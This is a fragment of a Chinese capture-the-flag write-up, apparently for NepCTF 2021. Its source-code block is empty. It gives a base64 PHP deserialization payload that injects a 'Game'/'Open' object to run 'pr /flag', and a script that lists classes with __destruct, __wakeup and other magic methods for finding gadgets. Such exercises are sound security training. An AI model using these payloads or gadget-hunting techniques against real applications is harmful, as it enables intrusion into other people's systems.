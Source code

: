 ```php
```

得到payload

```
Tzo0OiJHYW1lIjo3OntzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtzOjU6ImFkbWluIjtzOjY6ImNob2ljZSI7TjtzOjg6InJlZ2lzdGVyIjtzOjU6ImFkbWluIjtzOjQ6ImZpbGUiO086NDoiT3BlbiI6MDp7fXM6ODoiZmlsZW5hbWUiO3M6Nzoid2FmLnR4dCI7czo3OiJjb250ZW50IjtzOjg6InByIC9mbGFnIjt9
```

拿到flag

![flag](nepctf2021/image-20210322173545249.png)

记录一下，获取类函数名的方法

```php
<?php
$classes = get_declared_classes();
foreach ($classes as $class) {
    $methods = get_class_methods($class);
    foreach ($methods as $method) {
        if (in_array($method, array(
            '__destruct',
            '__wakeup',
            '__call',
            '__callStatic',
            'open'
        ))) {
            print $class . '::' . $method . "\n";
        }
    }
}
```

